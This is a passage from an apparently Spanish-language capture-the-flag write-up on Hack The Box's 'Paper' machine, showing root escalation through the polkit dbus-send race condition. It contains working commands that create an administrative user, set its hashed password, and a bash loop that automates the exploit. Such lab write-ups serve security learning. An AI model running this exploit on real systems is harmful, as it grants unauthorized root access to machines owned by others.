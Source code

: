 Pues explotemos esta vaaaaainaaaaaa!!!!

## Viajando a root usando el bus [📌](#dbus-send-polkit) {#dbus-send-polkit}

Lo primero que hacen es validar cuanto tiempo se demora normalmente el comando en ejecutarse, así sabemos después en cuanto debemos terminarlo o matarlo:

```bash
[dwight@paper test]$ time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:usuario1 string:"Usuario de prueba" int32:1
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required

real    0m0.044s
user    0m0.004s
sys     0m0.002s
```

Se demoró **44 milisegundos**, pues debemos terminarlo en un tiempo menor a ese, por ejemplo **25 milisegundos** (: Démosle forma al POC para crear el usuario `lanz`:

```bash
[dwight@paper test]$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:lanz string:"hola como estas" int32:1 & sleep 0.025s ; kill $!
```

Lo ejecutamos varias veces yyyyyy debería estar creado el usuario:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/paper/432bash_dwightSH_IDlanz.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Se creó el usuario, ahora debemos crear una contraseña en modo hash y después asignársela al usuario creado:

```bash
❱ openssl passwd -5 lanz
$5$setElnzAON0/GcgO$aH1rx64iKAvifLr3wuA7.sw.xMPUH.vGXPmYNF4POZ5
```

Y como último paso debemos asignar esa contraseña:

```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1005 org.freedesktop.Accounts.User.SetPassword string:'$5$setElnzAON0/GcgO$aH1rx64iKAvifLr3wuA7.sw.xMPUH.vGXPmYNF4POZ5' string:lanz & sleep 0.025s ; kill $!
```

> Notaste <u>/org/freedesktop/Accounts/User1005</u>? El *1005* sale de ejecutar `id -u <usuario creado>`, es necesario.

Acá nos pide la contraseña, pero nos la coloca como no válida... Aunque claro, teniendo en cuenta que debemos ser muuuuy rápidos, es mejor automatizar cada paso, hacer varios intentos y al final ejecutar `su lanz` cada vez a ver si nos otorga la shell...

```bash
#!/bin/bash

for i in $(seq 1 20); do
    dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:lanz string:"hola como estas" int32:1 & sleep 0.025s ; kill $!
    dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1005 org.freedesktop.Accounts.User.SetPassword string:'$5$setElnzAON0/GcgO$aH1rx64iKAvifLr3wuA7.sw.xMPUH.vGXPmYNF4POZ5' string:lanz & sleep 0.025s ; kill $!
done
```
